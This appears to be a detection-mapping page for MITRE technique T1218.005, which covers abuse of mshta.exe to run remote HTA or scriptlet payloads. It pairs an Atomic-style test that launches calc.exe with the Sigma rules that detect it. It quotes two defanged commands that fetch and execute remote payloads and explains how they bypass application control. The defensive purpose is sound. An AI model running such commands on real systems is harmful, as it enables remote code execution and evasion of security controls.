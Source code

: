 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
## OS
  - windows


## Description:
Test execution of a remote script using mshta.exe. Upon execution calc.exe will be launched.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_mshta_susp_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_mshta_javascript.yml (id: 67f113fa-e23d-4271-befa-30113b3e08b1)

 - proc_creation_win_mshta_susp_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - file_event_win_shell_write_susp_directory.yml (id: 1277f594-a7d1-4f28-a2d3-73af5cbeab43)

 - net_connection_win_binary_github_com.yml (id: 635dbb88-67b3-4b41-9ea5-a3af2dd88153)



[back](../index.md)
